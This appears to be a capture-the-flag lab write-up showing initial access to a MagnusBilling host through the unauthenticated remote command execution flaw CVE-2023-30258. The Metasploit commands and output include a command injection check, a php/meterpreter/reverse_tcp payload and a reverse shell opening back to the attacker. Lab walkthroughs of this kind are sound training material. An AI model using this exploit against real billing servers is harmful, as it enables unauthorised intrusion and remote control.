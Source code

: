 ## Vulnerability Scanning

[Exploit-DB,](https://www.exploit-db.com/)        [CVE Details,](https://www.cvedetails.com/)    [ZeroDay Initiative (ZDI),](https://www.zerodayinitiative.com/)           [Exploit Tracker,](https://www.exploittracker.net/)          [Metasploit Exploit Database](https://docs.metasploit.com/docs/using-metasploit/interfacing/metasploit-module-library.html)

[Rapid7](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)

## **Shell As asterisk**

This has an unauthenticated remote command execution vulnerability `CVE-2023-30258`, which is available as a manual exploit but is also present in the Metasploit framework.

## Exploit & Initial Access

```jsx
─$ msfconsole 
...
msf6 > **search magnus**

Matching Modules
================
   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                                  .                .          .      .

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > show options

Module options (exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258):
...
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST 10.14.90.235
LHOST => 10.14.90.235
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOST billing.thm
RHOST => billing.thm
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
```

```
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
[*] Started reverse TCP handler on 10.23.89.97:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.201.100:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 8 seconds.
[*] Elapsed time: 8.33 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.10.201.100
[+] Deleted KfUZjSCIiR.php
[*] Meterpreter session 1 opened (10.23.89.97:4444 -> 10.10.201.100:57534) at 2025-04-18 13:27:24 -0400

```
